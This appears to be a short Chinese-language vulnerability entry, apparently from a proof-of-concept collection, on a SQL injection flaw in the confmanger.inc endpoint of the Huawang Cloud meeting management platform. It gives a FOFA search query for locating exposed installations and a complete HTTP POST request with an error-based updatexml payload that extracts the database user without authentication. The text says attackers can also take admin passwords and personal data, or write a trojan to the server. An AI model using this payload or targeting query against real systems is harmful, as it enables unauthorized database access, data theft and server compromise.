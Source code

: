 # 华望云会议管理平台confmanger.inc存在SQL注入漏洞

华望云会议管理平台 `confmanger.inc` 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
title="华望云会议管理平台"
```

## poc

```javascript
POST /page/confmanger.inc?search=1%25'+and+1%3d(updatexml(0x7e,concat(1,(select+user())),1))+and+'%25%25'+like+'&params[]=confName&params[]=confId&params[]=displayName HTTP/1.1
Host: 
X-Requested-With: XMLHttpRequest
Cookie: uid=112; JSESSIONID=8E8A139355E2047CEAC6B307396968A8; languageGlobal=1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: */*
```

